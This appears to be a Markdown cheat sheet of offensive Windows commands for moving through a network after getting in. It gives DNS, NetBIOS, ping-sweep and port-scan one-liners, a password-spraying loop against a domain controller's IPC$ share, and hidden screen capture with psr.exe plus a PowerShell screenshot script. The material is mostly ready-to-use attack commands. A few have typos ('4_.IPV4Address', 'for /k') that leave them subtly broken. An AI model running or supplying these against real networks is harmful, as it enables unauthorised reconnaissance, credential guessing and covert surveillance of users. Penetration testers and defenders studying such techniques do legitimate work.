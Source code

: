 # Windows

## 01 - Internal Reconnaissance

### 1.1 - DNS Enumeration

#### 1.1.1 - Command Prompt

- DNS NSlookup

`C:\> for /L %i in (1,1,255) do @nslookup 192.168.1.%i 192.168.1.254 2> nul | find "Name" && echo 192.168.1.%i`

#### 1.1.2 - Powershell

- DNS using LDAP

`PS C:\> Get-ADComputer -Filter * -Properties IPv4Address | Where {4_.IPV4Address} | Select-Object Name,IPv4Address`

`PS C:\> Get-ADComputer -Filter { IPV4Address -eq '<IP>' } -Properties LastLogonDate,PasswordLastSet,IPv4Address`

### 1.2 - NetBIOS Enumeration

`C:\> for /l %i in (1,1,255) do @nbtstat -A 192.168.1.%i 2> nul && echo 192.168.1.%i`

### 1.3 - Ping Sweep

#### 1.3.1 - Command Prompt

```
C:\> for /l %i in (1, 1, 255) do @ping -n 1 -l 4 192.168.1.%i | find "TTL"

C:\> for /k %i in (1, 1, 255) do @ping -n 1 192.168.1.%i 2> nul && echo 192.168.1.%i host is up
```

#### 1.3.2 - Powershell

`PS C:\> 1..255 | % { "192.168.1.$($_): $(Test-Connection -Count 1 -Computername 192.168.1.$($_) -Quiet)" }`

### 1.4 - Port Scan

`PS C:\> 1..1024 | % { echo ((New-Object Net.Sockets.TcpClient).Connect("<IP>", $_)) "Port $_ is open" } 2>$null`

## 02 - Password Spraying

```
C:\> @for /f %n in (users.lst) do @for /f %p in (passwords.lst) do @net use \\<domain_controller_target>\IPC$ /user:<domain_name>\%n %p 1>nul 2>&1 && @echo [*] %n:%p && @net use /delete \\<domain_controller_target>\IPC$ > nul
```

## 03 - Screenshot

### 3.1 - Command Prompt

`C:\> psr.exe /start /output D:\screenshots.zip /sc 1 /gui 0`

### 3.2 - Powershell Script

`$ cat screenshot.ps1`

---

```powershell
Param(  
    [Parameter(Mandatory = $true)][string]$Path  
)  
  
$FileName = "$env:COMPUTERNAME - $(Get-Date -Format yyyy-MM-dd_HHmmss).bmp"  
$File = "$Path\$FileName"  
  
Add-Type -AssemblyName System.Windows.Forms  
Add-Type -AssemblyName System.Drawing  
$Screen = [System.Windows.Forms.SystemInformation]::VirtualScreen  
$Width = $Screen.Width  
$Height = $Screen.Height  
$Left = $Screen.Left  
$Top = $Screen.Top  
  
$bitmap = New-Object System.Drawing.Bitmap $Width, $Height  
$graphic = [System.Drawing.Graphics]::FromImage($bitmap)  
$graphic.CopyFromScreen($Left, $Top, 0, 0, $bitmap.Size)  
$bitmap.Save($File)   
  
Write-Output "Screenshot saved to:"  
Write-Output $File
```

---
## References

- [Powershell Problem Solver Find IP Address Using Powershell](https://petri.com/powershell-problem-solver-find-ip-address-using-powershell/)

- [Powershell Regex to Accurately match IPv4 Address (0-255 only)](https://www.powershelladmin.com/wiki/PowerShell_regex_to_accurately_match_IPv4_address_(0-255_only).php)

- [PSR LOLBas](https://lolbas-project.github.io/lolbas/Binaries/Psr/)